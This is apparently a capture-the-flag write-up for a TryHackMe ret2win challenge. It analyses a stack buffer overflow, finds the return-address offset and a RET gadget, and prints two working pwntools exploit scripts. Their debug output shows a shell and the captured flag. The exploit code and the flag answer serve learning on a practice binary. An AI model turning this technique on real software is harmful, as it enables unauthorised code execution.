

# TryRetMe

## Source Code Analysis

- Source Code
    
    ```python
    int win(){
    
        system("/bin/sh");
    }
    
    void vuln(){
        char *buf[0x20];
        puts("Return to where? : ");
        read(0, buf, 0x200);
        puts("\nok, let's go!\n");
    }
    
    int main(){
        setup();
        vuln();
    }
    ```
    

We can see the buffer only has 32 bytes, yet the `read()` can receive up to 512 bytes, which we can potentially overwrite the return address at this point

## ELF Analysis

 Use `file` to check the ELF tryretme

```bash
─$ file tryretme 
tryretme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8fa12c0f0abbacefabe9c4a36b6ba87d96b8b9a9, for GNU/Linux 3.2.0, not stripped

└─$ checksec --file=tryretme 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   71 Symbols        No    0               1               tryretme

```

There is no PIE and no canary, so we can basically overwrite with ease

```python
ndbg> disass vuln
Dump of assembler code for function vuln:
   0x00000000004011f4 <+0>:     endbr64
   0x00000000004011f8 <+4>:     push   rbp
   0x00000000004011f9 <+5>:     mov    rbp,rsp
   0x00000000004011fc <+8>:     sub    rsp,0x100
   0x0000000000401203 <+15>:    lea    rdi,[rip+0xe02]        # 0x40200c
   0x000000000040120a <+22>:    call   0x401070 <puts@plt>
   0x000000000040120f <+27>:    lea    rax,[rbp-0x100]
   0x0000000000401216 <+34>:    mov    edx,0x200
   0x000000000040121b <+39>:    mov    rsi,rax
   0x000000000040121e <+42>:    mov    edi,0x0
   0x0000000000401223 <+47>:    call   0x401090 <read@plt>
   0x0000000000401228 <+52>:    lea    rdi,[rip+0xdf1]        # 0x402020
   0x000000000040122f <+59>:    call   0x401070 <puts@plt>                                                                                                                                                
   0x0000000000401234 <+64>:    nop                                                                                                                                                                       
   0x0000000000401235 <+65>:    leave                                                                                                                                                                     
   0x0000000000401236 <+66>:    ret                                                                                                                                                                       
End of assembler dump. 
```

So we can use cyclic to find the offset for the return address



After the RET, the top in the stack will be popped out as the return address, which is qaacraac, so we need a 264 offset to touch it

We can also disassemble the win function to know the location

```python
pwndbg> disass win
Dump of assembler code for function win:
   0x00000000004011dd <+0>:     endbr64
   0x00000000004011e1 <+4>:     push   rbp
   0x00000000004011e2 <+5>:     mov    rbp,rsp
   0x00000000004011e5 <+8>:     lea    rdi,[rip+0xe18]        # 0x402004
   0x00000000004011ec <+15>:    call   0x401080 <system@plt>
   0x00000000004011f1 <+20>:    nop
   0x00000000004011f2 <+21>:    pop    rbp
   0x00000000004011f3 <+22>:    ret
End of assembler dump.

```

So the address is `0x4011dd`

## Exploitation

### Manually

So we can try to exploit by adding 264 padding plus the win address, and we did it?


But if we continue, we will see there is a signal Segmentation Error


I searched and found that we need to care about stack alignment

https://www.reddit.com/r/Assembly_language/comments/10zpojy/can_someone_explain_what_stack_alignment_is_and/

> Since the function call would have put a eight byte address on the stack, you need eight more bytes to realign it.                                                                                         [**MJWhitfield86**](https://www.reddit.com/user/MJWhitfield86/)
> 

In simple terms, just add 8 bytes, but to ensure we won’t mess the flow, we should find a `ret` that is used in the program. We called it as a **RET gadget**

So if we add a RET Gadget, it will look like the following


And because it has 16 bytes, so it can jump to the win function


So all we need to do is the following

- Manual script
    
    ```python
    from pwn import *
    
    def start(argv=[], *a, **kwargs):
        if args.GDB:
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kwargs)
        elif args.REMOTE:
            return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
        else:
            return process([exe] + argv, *a, **kwargs)
    
    gdbscript = '''
    b *vuln+66
    continue
    '''
    
    exe = './tryretme'
    elf = context.binary = ELF(exe, checksec=True)
    context.log_level = 'debug'
    
    rop=ROP(elf)
    # Find the first ret
    ret_addr=rop.find_gadget(['ret'])[0]
    # Add it to the ROP
    rop.raw(ret_addr)
    # Then add the return address
    rop.win()
    
    print(rop.dump())
    
    rop_chain = rop.chain()
    
    padding = 264
    
    payload = flat({padding : rop_chain})
    
    io = start()
    
    io.sendlineafter(b'Return to where? :', payload)
    
    io.interactive()
    
    ```
    

Running it locally will look like this

- Manual Result
    
    ```python
    └─$ python manual.py 
        Arch:       amd64-64-little
        RELRO:      Partial RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        No PIE (0x400000)
        SHSTK:      Enabled
        IBT:        Enabled
        Stripped:   No
    ...
    [DEBUG] Received 0x14 bytes:
        b'Return to where? : \n'
    [DEBUG] Sent 0x119 bytes:
        00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
        00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
        00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
        00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
        00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
        00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
        00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
        00000070  64 61 61 62  65 61 61 62  66 61 61 62  67 61 61 62  │daab│eaab│faab│gaab│
        00000080  68 61 61 62  69 61 61 62  6a 61 61 62  6b 61 61 62  │haab│iaab│jaab│kaab│
        00000090  6c 61 61 62  6d 61 61 62  6e 61 61 62  6f 61 61 62  │laab│maab│naab│oaab│
        000000a0  70 61 61 62  71 61 61 62  72 61 61 62  73 61 61 62  │paab│qaab│raab│saab│
        000000b0  74 61 61 62  75 61 61 62  76 61 61 62  77 61 61 62  │taab│uaab│vaab│waab│
        000000c0  78 61 61 62  79 61 61 62  7a 61 61 63  62 61 61 63  │xaab│yaab│zaac│baac│
        000000d0  63 61 61 63  64 61 61 63  65 61 61 63  66 61 61 63  │caac│daac│eaac│faac│
        000000e0  67 61 61 63  68 61 61 63  69 61 61 63  6a 61 61 63  │gaac│haac│iaac│jaac│
        000000f0  6b 61 61 63  6c 61 61 63  6d 61 61 63  6e 61 61 63  │kaac│laac│maac│naac│
        00000100  6f 61 61 63  70 61 61 63  1a 10 40 00  00 00 00 00  │oaac│paac│··@·│····│
        00000110  dd 11 40 00  00 00 00 00  0a                        │··@·│····│·│
        00000119
    [*] Switching to interactive mode
     
    [DEBUG] Received 0x10 bytes:
        b'\n'
        b"ok, let's go!\n"
        b'\n'
    
    ok, let's go!
    
    $ ls
    [DEBUG] Sent 0x3 bytes:
        b'ls\n'
    [DEBUG] Received 0x20 bytes:
        b'exploit.py  manual.py  tryretme\n'
    exploit.py  manual.py  tryretme
    
    ```
    

### Automatic

What is better than exploiting automatically, I steal the script from CryptoCat (from the very start:D), so it will find the offset, and do the rest for me

- Automatic script
    
    ```python
    from pwn import *
    
    def start(argv=[], *a, **kwargs):
        if args.GDB:
           return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kwargs)
        if args.REMOTE:
           return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
        else:
           return process([exe] + argv, *a, **kwargs)
    
    gdbscript='''
    continue
    '''
    
    exe='./tryretme'
    elf=context.binary=ELF(exe,checksec=True)
    context.log_level='debug'
    
    # Test run to find offset
    test = start()
    # Create a large payload for testing
    test_offset=cyclic(600)
    
    test.sendlineafter(b'Return to where? : ', test_offset)                                                                                                                                                   
                                                                                                                                                                                                              
    test.wait()                                                                                                                                                                                               
    # Use the dumped file generated after the failure                                                                                                                                                         
    core=test.corefile                                                                                                                                                                                        
    # Find the RBP Value(The RIP value will failed to verify because the CPU will know it is a invalid RIP address and won't save)                                                                                               
    rbp_value=core.rbp                                                                                                                                                                                        
    # Cyclic lookup                                                                                                                                                                                           
    offset=cyclic_find(rbp_value)                                                                                                                                                                             
    # For some reason, I can't generate the dump file in THM attack box, but doing it in my VM will hang after sending the payload                                                                            
    # So maybe execute it locally-> Find the Offset -> Hardcode the offset in Attack Box -> Exploit :D                                                                                                        
    print(f'The offset is {offset}')                                                                                                                                                                          
    # Create a ROP object                                                                                                                                                                                     
    rop=ROP(elf)
    # Find a RET gadget
    ret_addr=rop.find_gadget(['ret'])[0]
    # Insert into the ROP chain
    rop.raw(ret_addr)
    # Include the win address
    rop.win()
    
    print(rop.dump())
    # RIP = RBP + 8
    payload=flat({offset+8:rop.chain()})
    
    io = start()
    
    io.sendlineafter(b'Return to where? : ', payload)
    
    io.interactive()
    
    ```
    

The result of the manual script looks like this

- Manual Result
    
    ```python
    ─$ python manual.py REMOTE <Machine IP> <Port>                                                                                                                                                            
        Arch:       amd64-64-little
        RELRO:      Partial RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        No PIE (0x400000)
        SHSTK:      Enabled
        IBT:        Enabled
        Stripped:   No
    ...
    [DEBUG] Received 0x14 bytes:
        b'Return to where? : \n'
    [DEBUG] Sent 0x119 bytes:
        00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
        00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
        00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
        00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
        00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
        00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
        00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
        00000070  64 61 61 62  65 61 61 62  66 61 61 62  67 61 61 62  │daab│eaab│faab│gaab│
        00000080  68 61 61 62  69 61 61 62  6a 61 61 62  6b 61 61 62  │haab│iaab│jaab│kaab│
        00000090  6c 61 61 62  6d 61 61 62  6e 61 61 62  6f 61 61 62  │laab│maab│naab│oaab│
        000000a0  70 61 61 62  71 61 61 62  72 61 61 62  73 61 61 62  │paab│qaab│raab│saab│
        000000b0  74 61 61 62  75 61 61 62  76 61 61 62  77 61 61 62  │taab│uaab│vaab│waab│
        000000c0  78 61 61 62  79 61 61 62  7a 61 61 63  62 61 61 63  │xaab│yaab│zaac│baac│
        000000d0  63 61 61 63  64 61 61 63  65 61 61 63  66 61 61 63  │caac│daac│eaac│faac│
        000000e0  67 61 61 63  68 61 61 63  69 61 61 63  6a 61 61 63  │gaac│haac│iaac│jaac│
        000000f0  6b 61 61 63  6c 61 61 63  6d 61 61 63  6e 61 61 63  │kaac│laac│maac│naac│
        00000100  6f 61 61 63  70 61 61 63  1a 10 40 00  00 00 00 00  │oaac│paac│··@·│····│
        00000110  dd 11 40 00  00 00 00 00  0a                        │··@·│····│·│
        00000119
    [*] Switching to interactive mode
     
    [DEBUG] Received 0x10 bytes:
        b'\n'
        b"ok, let's go!\n"
        b'\n'
    
    ok, let's go!
    
    $ ls
    [DEBUG] Sent 0x3 bytes:
        b'ls\n'
    [DEBUG] Received 0xd bytes:
        b'flag.txt\n'
        b'run\n'
    flag.txt
    run
    $ cat flag.txt
    [DEBUG] Sent 0xd bytes:
        b'cat flag.txt\n'
    [DEBUG] Received 0x19 bytes:
        b'THM{a_r3t_to_w1n_by_thm}\n'
    THM{a_r3t_to_w1n_by_thm}
    
    ```
    

For the automatic script, I need to use the THM attack box to do it, as the connection is so slow that after I send the payload, it hangs

Flag: `THM{a_r3t_to_w1n_by_thm}`
